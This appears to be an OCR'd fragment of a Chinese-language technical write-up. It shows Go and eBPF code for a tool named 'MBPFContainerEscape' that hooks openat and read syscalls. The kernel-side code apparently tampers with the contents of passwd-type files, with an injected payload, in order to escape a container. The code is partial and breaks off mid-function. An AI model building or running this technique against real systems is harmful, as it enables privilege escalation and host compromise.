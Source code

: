 ```null
            Name:          "payload",
            Value:         m["payload"],
            FailOnMissing: true,
        },
        {
            Name:          "payload_len",
            Value:         m["payload_len"],
            FailOnMissing: true,
            },
    }
    return editor
}

func (this *MBPFContainerEscape) setupManagers() {
    this.bpfManager = &manager.Manager{
        Probes: []*manager.Probe{
            {
                Section:          "tracepoint/syscalls/sys_enter_openat",
                EbpfFuncName:     "handle_openat_enter",
                AttachToFuncName: "sys_enter_openat",
            },
            ...
        },

        Maps: []*manager.Map{
            {
                Name: "events",
            },
        },
    }

    this.bpfManagerOptions = manager.Options{
        ...
        
        ConstantEditors: this.constantEditor(),
    }
}
```

#### 内核态使用payload

```null
const volatile int payload_len = 0;
...
const volatile char payload_shadow[MAX_PAYLOAD_LEN];

SEC("tracepoint/syscalls/sys_exit_read")
int handle_read_exit(struct trace_event_raw_sys_exit *ctx)
{
    
    ...
    long int read_size = ctx->ret;
    
    if (read_size < payload_len) {
        return 0;
    }

    
    switch (pbuff_addr->file_type)
    {
    case FILE_TYPE_PASSWD:
        
        {
            bpf_probe_read(&local_buff, MAX_PAYLOAD_LEN, (void*)buff_addr);
```